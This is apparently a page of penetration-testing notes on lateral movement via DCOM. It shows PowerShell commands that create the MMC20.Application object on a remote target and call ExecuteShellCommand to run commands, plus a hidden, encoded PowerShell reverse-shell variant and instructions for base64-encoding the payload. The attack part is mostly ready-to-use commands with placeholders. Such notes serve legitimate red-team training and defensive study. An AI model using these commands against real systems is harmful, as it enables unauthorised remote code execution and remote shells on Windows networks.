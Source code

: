 Communicate via RPC over TCP on port 135. **Local administrator access is required** to call DCOM service manager (which is basically an API).

Lots of lateral movement techniques exploiting this functionality can be found here: https://www.cybereason.com/blog/dcom-lateral-movement-techniques.

### Execution

Example walkthrough with a specific technique, abusing Microsoft Management Console COM application (used for scripted automation of Windows systems). **Needs local admin rights**.

We can create an "Application Object" (https://docs.microsoft.com/en-us/previous-versions/windows/desktop/mmc/application-object) which expose the `ExecuteShellCommand` method under `Document.ActiveView` property which we can exploit for RCE.

```
PS C:\> $dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1", "<TARGET_IP>"))

PS C:\> $dcom.Document.ActiveView.ExecuteShellCommand("cmd", $null, "/c calc", "7")
```

Parameters for second command mean:
1. What command to execute
2. Directory to execute in
3. Parameters to run for command
4. WindowState - 7 usually works for most cases

For a reverse shell, we could try `$dcom.Document.ActiveView.ExecuteShellCommand("powershell", $null, "powershell -nop -w hidden -e <BASE64_POWERSHELL_REVSHELL>", "7")`.

**NOTE: THE POWERSHELL PAYLOAD MUST BE BASE64 ENCODED WITH UNICODE (UTF-16), NOT ASCII**

```
echo <POWERSHELL_PAYLOAD> | iconv -t UTF-16LE | base64  # Linux

[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("<POWERSHELL_PAYLOAD>"))
```
